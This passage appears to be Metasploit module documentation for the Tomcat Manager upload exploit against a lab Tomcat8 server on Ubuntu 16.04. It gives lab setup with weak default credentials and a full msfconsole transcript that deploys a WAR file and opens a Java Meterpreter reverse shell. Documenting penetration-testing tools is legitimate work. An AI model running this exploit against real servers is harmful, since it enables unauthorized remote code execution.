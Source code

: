     meterpreter > sysinfo
    Computer    : tomcat
    OS          : Linux 4.4.0-59-generic (amd64)
    Meterpreter : java/linux
    ```

### Tomcat8 (8.0.32) - Ubuntu server 16.04 64bit
Of note, as of 7, the permission role 'manager' has been divided into several sub-roles.  The `manager-gui` permission is required for this exploit.

#### Setup

1. `apt-get install tomcat8 tomcat8-admin`

#### text/script Interface Exploitation

1. Edit `/etc/tomcat8/tomcat-users.xml` to add:

    ```
    <role rolename="manager-gui"/>
    <user username="tomcat" password="tomcat" roles="manager-gui"/>
    ```

2. Restart the service if a user was added/changed: `sudo service tomcat8 restart`

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_upload) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.118
    rhost => 192.168.2.118
    msf exploit(tomcat_mgr_upload) > set rport 8088
    rport => 8088
    msf exploit(tomcat_mgr_upload) > check
    
    [*] Tomcat Manager found running on linux platform and x64 architecture
    [*] 192.168.2.118:8088 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_upload) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Retrieving session ID and CSRF token...
    [*] Finding CSRF token...
    [*] Uploading and deploying Bjf01M65XUROXL36wmIc85OmtY...
    [*] Uploading 6092 bytes as Bjf01M65XUROXL36wmIc85OmtY.war ...
    [*] Executing Bjf01M65XUROXL36wmIc85OmtY...
    [*] Executing /Bjf01M65XUROXL36wmIc85OmtY/UbPmEhI1wkAf8Yj1rTohvPQWPIADy5.jsp...
    [*] Finding CSRF token...
    [*] Undeploying Bjf01M65XUROXL36wmIc85OmtY ...
    [*] Sending stage (49409 bytes) to 192.168.2.118
    [*] Meterpreter session 3 opened (192.168.2.117:4444 -> 192.168.2.118:33814) at 2017-01-15 20:08:13 -0500
    